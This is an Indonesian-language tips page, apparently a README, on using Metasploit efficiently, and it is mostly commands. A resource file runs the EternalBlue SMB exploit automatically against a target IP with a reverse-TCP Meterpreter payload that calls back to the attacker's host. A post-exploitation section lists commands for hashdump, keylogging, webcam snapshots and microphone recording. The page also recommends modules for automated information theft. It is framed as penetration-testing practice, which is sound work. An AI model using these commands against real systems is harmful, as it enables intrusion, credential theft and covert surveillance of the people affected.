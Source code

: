 # Tips dan Trik Penggunaan Metasploit Efisien

## 1. Setup Awal yang Benar

   Jalankan Metasploit dengan database aktif:

   ```
   sudo systemctl start postgresql
   msfdb init
   msfconsole
   ```

   Keuntungan database aktif:
   - Menyimpan hasil pemindaian (`Nmap`, `Host`, `Service`).
   - Menyimpan workspace dan logs.
   - Integrasi dengan Armitage.

## 2. Gunakan Alias dan Tab Completion

   - Gunakan `Tab` untuk melengkapi `command`, `module`, `payload`, `dsb`.
   - Gunakan `?` atau `help` untuk melihat opsi.

   Contoh:

   ```
   use exploit/windows/smb/ms17_010_eternalblue
   show options
   ```

## 3. Simpan dan Muat Konfigurasi (resource file)

   Buat file `auto.rc`:

   ```
   nano auto.rc
   ```

   Isi dengan:
   
   ```
   use exploit/windows/smb/ms17_010_eternalblue
   set RHOSTS 192.168.1.45
   set RPORT 445
   set LHOST 192.168.1.42
   set LPORT 4444
   set PAYLOAD windows/x64/meterpreter/reverse_tcp
   set target 1
   set verbose true
   exploit
   ```

   Jalankan Metaploit:

   ```
   msfconsole -r auto.rc
   ```

   Ini akan mengeksploitasi target secara otomatis tanpa harus kita setting secara manual satu persatu.

  
## 4. Gunakan search Secara Efisien

   Cari berdasarkan `platform`, `CVE`, `tipe`, `dsb`:

   ```
   search type:exploit platform:windows smb
   search name:eternalblue
   search cve:2017-0144
   ```

## 5. Gunakan setg untuk Pengaturan Global

   ```
   setg LHOST 192.168.1.5
   setg LPORT 4444
   ```

   Berlaku untuk semua `exploit/payload` selanjutnya, hemat waktu konfigurasi.

## 6. Simpan dan Kelola Target dengan Workspace

   ```
   workspace add pentest01
   workspace pentest01
   db_nmap -sV 192.168.1.0/24
   hosts
   services
   ```

   Workspace membantu memisahkan proyek dan target secara terstruktur.

 ## 7. Gunakan exploit suggester

   Jika kamu sudah mendapatkan sesi shell:

   ```
   use post/multi/recon/local_exploit_suggester
   set SESSION 1
   run
   ```

## 8. Gunakan sessions dengan Cerdas

   ```
   sessions       # daftar sesi
   sessions -i 1  # masuk ke session 1
   background     # keluarkan sesi ke background
   ```

## 9. Pasca-Eksploitasi Cepat

   Setelah mendapatkan Meterpreter:

   ```
   sysinfo
   getuid
   hashdump
   shell
   keyscan_start
   keyscan_dump
   webcam_snap
   record_mic
   ```

## 10. Gunakan loot, notes, dan creds

   Simpan dan kelola hasil:

   ```
   loot
   notes
   creds
   ```

## 11. Integrasi dengan Script/Tool Lain
   - Gunakan `Python` untuk otomatisasi via `msfrpc` (Metasploit RPC).
   - Integrasi dengan `CrackMapExec`, `Empire`, atau `BloodHound`.

## Bonus Tips:
   - Gunakan module `auxiliary/scanner/*` untuk scanning cepat.
   - Gunakan module `gather` untuk pencurian informasi secara otomatis.
   - Dokumentasikan semua sesi dan hasil eksploitasi untuk laporan.
